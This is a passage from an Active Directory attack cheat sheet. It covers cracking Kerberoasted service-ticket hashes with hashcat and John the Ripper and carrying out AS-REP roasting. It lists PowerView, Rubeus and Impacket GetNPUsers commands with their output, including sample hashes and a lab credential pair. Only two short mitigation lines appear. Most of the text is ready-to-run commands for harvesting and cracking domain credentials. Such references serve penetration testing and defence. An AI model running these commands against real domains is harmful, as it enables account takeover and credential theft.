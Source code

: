 ```powershell
./hashcat -m 13100 -a 0 kerberos_hashes.txt crackstation.txt
./john --wordlist=/opt/wordlists/rockyou.txt --fork=4 --format=krb5tgs ~/kerberos_hashes.txt
```

Mitigations:

- Have a very long password for your accounts with SPNs (> 32 characters)
- Make sure no users have SPNs

## KRB\_AS\_REP Roasting

> If a domain user does not have Kerberos preauthentication enabled, an AS-REP can be successfully requested for the user, and a component of the structure can be cracked offline a la kerberoasting

**Requirements**:

- Accounts with the attribute **DONT\_REQ\_PREAUTH** (`PowerView > Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose`)

- [Rubeus](https://github.com/GhostPack/Rubeus)
    
    ```powershell
    C:\Rubeus>Rubeus.exe asreproast /user:TestOU3user /format:hashcat /outfile:hashes.asreproast
    [*] Action: AS-REP roasting
    [*] Target User            : TestOU3user
    [*] Target Domain          : testlab.local
    [*] SamAccountName         : TestOU3user
    [*] DistinguishedName      : CN=TestOU3user,OU=TestOU3,OU=TestOU2,OU=TestOU1,DC=testlab,DC=local
    [*] Using domain controller: testlab.local (192.168.52.100)
    [*] Building AS-REQ (w/o preauth) for: 'testlab.local\TestOU3user'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 169 bytes
    [*] Received 1437 bytes
    [+] AS-REQ w/o preauth successful!
    [*] AS-REP hash:
    
    $krb5asrep$TestOU3user@testlab.local:858B6F645D9F9B57210292E5711E0...(snip)...
    ```
    
- [GetNPUsers](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) from Impacket Suite
    
    ```powershell
    $ python GetNPUsers.py htb.local/svc-alfresco -no-pass
    [*] Getting TGT for svc-alfresco
    $krb5asrep$23$svc-alfresco@HTB.LOCAL:c13528009a59be0a634bb9b8e84c88ee$cb8e87d02bd0ac7a[...]e776b4
    
    # extract hashes
    root@kali:impacket-examples$ python GetNPUsers.py jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
    root@kali:impacket-examples$ python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast
    ```
    